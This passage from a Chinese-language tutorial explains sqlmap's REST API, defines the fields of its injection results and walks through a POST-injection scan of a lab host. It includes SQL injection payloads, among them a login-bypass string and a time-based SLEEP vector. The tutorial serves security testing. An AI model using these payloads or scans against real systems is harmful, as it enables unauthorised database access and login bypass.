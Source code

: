 可能您会被最后返回的结果好奇，ptype、suffix、clause等等都是什么意思呢？下面我给出部分字段的含义：

| 字段 |  含义 | 值 |
| :--- | :--- | :--- |
| dbms | 数据库类型 | Microsoft AccessIBM DB2FirebirdSAP MaxDBMicrosoft SQL ServerMySQLOraclePostgreSQLSQLiteSybaseHSQLDBH2Informix |
| suffix | 在有些时候，需要在注入的payload的后面加一些字符，来保证payload的正常执行。 | GENERIC\_SQL\_COMMENT\] AND \(\[RANDNUM\]=\[RANDNUM\] AND \(\(\[RANDNUM\]=\[RANDNUM\] AND \(\(\(\[RANDNUM\]=...太多了，具体可查看xml/boundaries.xml文件。 |
| prefix | 在有些时候，需要在注入的payload的前面加一些字符，来保证payload的正常执行。 |  \)'\)'"...太多了，具体可查看xml/boundaries.xml文件。  |
| clause | payload在哪个语句里生效 | 0: "Always",1: "WHERE",2: "GROUP BY",3: "ORDER BY",4: "LIMIT",5: "OFFSET",6: "TOP",7: "Table name",8: "Column name",9: "Pre-WHERE \(non-query\)"  |
| where | 以什么样的方式将我们的payload添加进去 | ORIGINAL = 1NEGATIVE = 2REPLACE = 3 |
| ptype | parameter type；注入点的类型 | 1: "Unescaped numeric", 2: "Single quoted string", 3: "LIKE single quoted string", 4: "Double quoted string", 5: "LIKE double quoted string",  6: "Identifier \(e.g. column name\)",  |
| dbms\_version | 数据库的粗略版本 |  &gt;= 5.5&gt;= 5.0.12...  |
| place | 请求方式 | GETPOST\(custom\) HEADER |
|  title | 当前测试Payload的标题，通过标题就可以了解当前的注入手法与测试的数据库类型。 | AND boolean-based blind - WHERE or HAVING clause...  |
| vector | payload向量 | AND \(SELECT \* FROM \(SELECT\(SLEEP\(\[SLEEPTIME\]-\(IF\(\[INFERENCE\],0,\[SLEEPTIME\]\)\)\)\)\)\[RANDSTR\]\)...  |
| payload | 有效负荷,进行测试的SQL语句 | 1、news\_id=1 AND 6788=6788 2、login\_user=1&login\_password=-3814' OR 7117=7117\#&mysubmit=Login  |
| parameter | 哪个参数可以注入 | usernamenews\_id.... |

#### 检测POST注入、COOKIE、UA等注入 <a id="h3-25"></a>

检测POST注入和检测GET注入类似，但是还是有一定区别的，与GET注入检测区别如下，流程上是一样的，不同的是开启扫描任务的时候，多提交一个data字段。

```text
requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
```

下面是一次完整的POST注入检测过程

![&#x6DF1;&#x5165;&#x4E86;&#x89E3;sqlmap\_api](https://image.3001.net/images/20190529/1559139385_5cee943922633.png!small)

具体输入输出代码如下：

```text
>>> r = requests.get("http://127.0.0.1:8775/task/new")
>>> r.json()
{'taskid': 'cb9c4b4e4f1996b5', 'success': True}
>>> r = requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
>>> r.json()
{'engineid': 9682, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/status")
>>> r.json()
{'status': 'terminated', 'returncode': 0, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/data")
>>> r.json()
{'data': [{'status': 1, 'type': 0, 'value': {'url': 'http://192.168.1.104:80/sql/sql/post.php', 'query': None, 'data': 'keyword=1'}}, {'status': 1, 'type': 1, 'value': [{'dbms': 'MySQL', 'suffix': '', 'clause': [1, 8, 9], 'notes': [], 'ptype': 1, 'dbms_version': ['>= 5.0.12'], 'prefix': '', 'place': 'POST', 'os': None, 'conf': {'code': None, 'string': 'Title=FiveAourThe??', 'notString': None, 'titles': None, 'regexp': None, 'textOnly': None, 'optimize': None}, 'parameter': 'keyword', 'data': {'1': {'comment': '', 'matchRatio': 0.863, 'trueCode': 200, 'title': 'AND boolean-based blind - WHERE or HAVING clause', 'templatePayload': None, 'vector': 'AND [INFERENCE]', 'falseCode': 200, 'where': 1, 'payload': 'keyword=1 AND 3424=3424'}...], 'success': True, 'error': []}
```

